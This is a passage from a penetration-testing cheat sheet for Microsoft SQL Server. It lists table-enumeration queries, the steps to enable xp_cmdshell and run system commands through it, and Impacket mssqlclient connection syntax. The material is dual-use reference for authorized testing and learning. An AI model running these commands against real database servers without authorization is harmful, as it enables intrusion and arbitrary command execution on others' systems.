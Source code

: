 #### Table Enumeration
```sql
-- List tables in current database
SELECT table_name FROM information_schema.tables;

-- List tables in specific database
USE database_name;
SELECT name FROM sys.tables;

-- Get table structure
SELECT column_name, data_type FROM information_schema.columns WHERE table_name = 'users';
```

### 4. Command Execution

#### xp_cmdshell Testing
```sql
-- Check if xp_cmdshell is enabled
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

-- Enable xp_cmdshell (if sysadmin)
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- Execute system commands
EXEC xp_cmdshell 'whoami';
EXEC xp_cmdshell 'hostname';
EXEC xp_cmdshell 'ipconfig';
```

---

## Manual Interaction

### Impacket mssqlclient.py

#### Connection Methods
```bash
# SQL authentication
impacket-mssqlclient user:password@target

# Windows authentication
impacket-mssqlclient domain/user:password@target -windows-auth

# Local Windows authentication
impacket-mssqlclient ./user:password@target -windows-auth

# Specify database
impacket-mssqlclient user:password@target -db database_name

# Custom port
impacket-mssqlclient user:password@target -port 1433
```
